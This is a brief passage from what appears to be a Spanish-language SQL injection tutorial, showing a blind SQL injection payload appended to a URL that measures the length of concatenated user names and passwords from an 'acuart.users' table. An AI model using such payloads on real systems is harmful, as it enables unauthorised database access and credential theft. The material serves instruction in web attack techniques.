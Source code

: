 ![v_columnas](/assets/img/screens/columnas_3_8.png)

<br>
Averiguando la cantidad de caracteres de la info. a extraer:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND length((SELECT concat(name,',',pass) FROM acuart.users LIMIT 0,1))=x;#</font></pre>
